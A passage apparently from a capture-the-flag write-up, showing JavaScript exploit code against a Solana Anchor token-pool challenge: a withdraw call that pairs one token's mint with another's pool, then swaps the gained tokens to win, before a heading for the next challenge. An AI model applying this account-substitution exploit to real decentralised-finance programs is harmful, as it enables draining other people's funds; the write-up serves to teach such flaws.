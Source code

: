 ```
    }
}),
program.instruction.withdraw(new BN(90000000), {
    accounts: {
        player: player.publicKey,
        depositor: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        depositMint: new anchor.web3.PublicKey(accounts.woEthMint),
        pool: new anchor.web3.PublicKey(accounts.soEthPool),
        poolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
        voucherMint: new anchor.web3.PublicKey(accounts.woEthVoucherMint),
        depositorAccount: playerSo,
        depositorVoucherAccount: playerVoucherWo,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// We can use our sollet to swap for 100,000,000 wormhole and 100,000,000 lido, and win.
program.instruction.swap(new BN(1000000), {
    accounts: {
        player: player.publicKey,
        swapper: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        fromPool: new anchor.web3.PublicKey(accounts.soEthPool),
        toPool: new anchor.web3.PublicKey(accounts.woEthPool),
        fromPoolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
        toPoolAccount: new anchor.web3.PublicKey(accounts.woEthPoolAccount),
        fromSwapperAccount: playerSo,
        toSwapperAccount: playerWo,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
program.instruction.swap(new BN(1000000), {
    accounts: {
        player: player.publicKey,
        swapper: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        fromPool: new anchor.web3.PublicKey(accounts.soEthPool),
        toPool: new anchor.web3.PublicKey(accounts.stEthPool),
        fromPoolAccount: new anchor.web3.PublicKey(accounts.soEthPoolAccount),
        toPoolAccount: new anchor.web3.PublicKey(accounts.stEthPoolAccount),
        fromSwapperAccount: playerSo,
        toSwapperAccount: playerSt,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
```

## [](https://hackmd.io/@theori/r1gnaGNks#Challenge-3 "Challenge-3")Challenge 3
